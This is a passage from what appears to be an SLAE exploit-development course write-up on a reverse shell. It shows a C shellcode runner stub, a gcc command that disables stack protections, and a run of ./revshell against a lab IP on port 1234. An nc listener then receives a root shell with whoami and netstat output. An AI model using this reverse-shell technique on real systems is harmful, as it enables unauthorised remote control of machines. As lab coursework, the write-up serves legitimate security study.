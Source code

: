```c

int (*ret)() = (int(*)())shellcode;

ret();

}
```

<p style="text-align:justify;">
the following command will be used to compile the program above
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># gcc -fno-stack-protector  -z execstack -m32 -o revshell revshell.c
</pre>

<p style="text-align:justify;">
Furthermore, as seen below when the <strong>revshell</strong> program runs, then if a target machine listens to specific port&nbsp; ( e.g <strong>1234</strong> using a listener ) , then a new connection starts on the target machine.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ./revshell 192.168.200.4 1234
Shellcode Length: 84
</pre>

As we see below the communication has been established with the target machine on port <strong>1234</strong> and we can run commands remotely

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234 
whoami
root
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

<p style="text-align:justify;">
Furthermore, after the successful connection to the target machine, we will use the following python command in order to have a bash prompt to the open shell above
</p>

